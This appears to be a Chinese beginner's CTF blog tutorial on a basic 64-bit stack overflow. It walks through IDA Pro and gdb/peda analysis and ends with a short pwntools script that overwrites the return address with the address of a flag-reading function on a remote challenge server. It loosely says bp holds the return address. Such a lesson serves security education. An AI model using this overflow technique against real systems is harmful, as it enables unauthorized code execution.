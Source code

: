 ```yaml
---
layout: post
title:  "PWN之基础栈溢出"
date:   2017-03-20 11:49:45 +0200
categories: ctf
published: true
---
```

    这里对一道非常简单的pwn（甚至可以说最简单）做一个讲解。

题目可以在这里下载[http://pan.baidu.com/s/1mhKqOjQ](http://pan.baidu.com/s/1mhKqOjQ)。

### 0x00 使用ida pro分析代码

对于PWN题，有的题目是不会给你程序的，但有的会给，比如这个题目。拿到题目之后，首先使用IDA PRO分析代码。对于IDA PRO可以使用我这个[http://pan.baidu.com/s/1o7IkRBO](http://pan.baidu.com/s/1o7IkRBO)。

<br/>

IDA PRO打开它的文件夹后可以看到它有两个版本，一个对应32位程序，一个对应64位程序。对于32位和64位程序的区别这里就不做详细叙述，直接讲IDA的使用方法。

<br/>

因为这道题的题目是64位的（如果使用了错误版本的IDA，IDA会给你提示），所以我们用64位的IDA打开它，然后可以看到IDA的代码分析结果。

<br/>

这里是函数界面。双击里面的函数在反汇编界面看到该函数的反汇编结果。

![p1](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/01.png)

<br/>

这里是IDA的反汇编界面。在这个界面按 `空格`可以切换到其他的现实模式。

![p2](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/02.png)

<br/>

比如可以按空格切换到main函数的这个界面。这个界面里的代码是汇编代码，想要读懂的话需要学习相关知识。

![p3](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/03.png)

<br/>

这里我们用到的就这么多，所以先介绍到这里。那么有同学会问了，汇编太难了，我读不懂该怎么办？这里就能用到IDA PRO最强大的功能之一————反汇编到C语言代码。还是在刚刚main函数的位置，我们按下`F5`，然后可以看到main函数的反汇编到C语言的代码。

![p4](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/04.png)

<br/>

这下分析代码就变得轻松多了。因为这个程序的函数也不是很多，我们可以逐个看看这些函数哪个比较可疑，然后我们注意到了一个名字叫 **good_game**的函数，里面有一句代码是 `v0 = fopen("flag.txt", "r");`。这个 **flag.txt**实在是相当可疑。可是这个程序 **main**函数里只是读取了我们的输入呀，怎么才能让它进入这个函数呢？

<br/>

这里就涉及到了栈溢出的知识。

### 0x01 栈溢出

栈溢出是PWN中最常利用的漏洞之一，它涉及到了程序运行中 **栈帧**的概念。那么什么是栈帧呢？对于栈溢出知识的介绍网上有很多人介绍过，这篇博客主要教大家一些PWN工具的利用，所以这里就给出几个链接，大家可以通过这几个链接学习栈溢出的知识。

<br/>

[以动画的形式生动演示了栈溢出的过程](https://www.codebashing.com/io/lessons/stack_overflow/#/lesson/stack overflows/objectives?_k=608z53)

[知乎上的一些回答](https://www.zhihu.com/question/22444939)

[这篇对寄存器指针的说明比较详细](http://eleveneat.com/2015/07/11/Stack-Frame/)

<br/>

应用到我们这个程序中来，大概是这样一个分析过程。首先我们观察这个 **read()**函数。

`read(0, &v4, 0x100uLL);`

可以看出来它是往 `v4`这个变量储存的地址里，读取 **0x100**个字符的输入（ **0x**前缀表示这是个16进制数），那么我们关注一下 `v4`在栈中的位置。

<br/>

`__int64 v4; // [sp+0h] [bp-88h]@1`

可以看出来，它在 **bp-88h**这个位置。**88h**中的 **h**表明这是个16进制数。根据我们栈帧的知识， **bp**中存储的是函数的返回地址，如果我们能利用我们的输入把bp对应的地址给覆盖成 **good_ganme**对应的地址，那么程序在走完 **main()**之后，将会返回到 **good_game()**，运行读取flag的代码。

<br/>

想必对于初学者来说理解这些是比较困难的，但万事开头难，想要深入的话这样的学习是必要的，如果自己想要学习的话，我推荐去看看汇编语言相关的书籍，能对程序的运行有更深入的理解。


## 0x02 gdb动态调试

上面分析了一堆，到底能不能在实践上用上呢？我们可以通过 **gdb**工具来动态调试linux下可执行文件。在运行 **gdb**之前，我推荐大家安装一个插件，地址在[这里](https://github.com/longld/peda)。如果看不懂readme的意思的话，在linux的命令行中执行以下两行代码：

```shell
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

即可安装上这个gdb插件。让我们看看实际的操作。

<br/>

首先在目标文件目录下使用gdb命令。

![p5](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/05.png)

<br/>

然后输入`file [文件名]`，让gdb导入该文件。（注意要是不在被导入文件的目录下是不能导入文件的）

![p6](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/06.png)

<br/>

然后输入`disas main`即“反编译main函数”的意思。

![p7](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/07.png)

<br/>

然后使用`b *(main+42)`在read()函数后加断点。加了断点之后程序在运行时就会停在断点处。

![p8](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/08.png)

<br/>

使用`r`让程序跑起来。然后随便输入一段字符。

![p9](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/09.png)

<br/>

上图的中间有许多调试信息，这里我们关注一下 **RBP**的信息，然后输入`stack 50`查看栈的50行信息。

![p10](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/10.png)

我们成功看到了我们的输入，和在 **0096**这个位置的 **RBP**对应的数值。感兴趣的同学可以在这里手动输入0x88个以上的字符实验一下结果。动态调试证明了我们的结论，那么让我们开始写解题脚本吧！

    gdb是个非常强大的调试工具，这里只用到了它的极少部分功能，有兴趣的同学可以自行查询资料。

### 0x03 编写脚本

PWN题通常使用python来写脚本的，当然也有用C来写脚本的大神，我们这里就用python中的`pwn`包来完成脚本的任务。

    安装pwn包非常简单。在命令行中输入pip install pwn即可。

<br/>

直接把脚本放上来:

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
 
from pwn import *
 
conn = remote('45.32.93.239', 54321)
print conn.recvline()
payload = "a" * 0x88          
payload += p64(0x0000000000400620)  #这串数字是good_game的函数地址
conn.sendline(payload)
print conn.recv()
print conn.recv()
```

对代码作部分说明。 `remote()`是链接到题目服务器的函数。 `recvline()`是接收服务器传来的一行字符。`payload`是我们要提交的字符串。`p64()`是把16进制数字转化成64位地址字符串的函数。`sendline()`是发送一行数据到服务器。`recv()`是接收服务器的数据。

<br/>

代码还是相当直观的，应该比较好理解。可能有同学不知道good_name函数地址是如何获取的。我们可以通过ida来获取。首先把反汇编界面调到带地址的汇编代码，然后在函数窗口双击good_game函数即可。

<br/>

首先要切到这个栏，然后按空格可以切到带地址的状态。

![p11](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/11.png)

<br/>

然后双击good_game函数地址就能看到了。

![p12](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/12.png)

<br/>

最后展示以下脚本运行的结果。

![p13](http://ofnd3snod.bkt.clouddn.com/blog/ctf/overflow/13.png)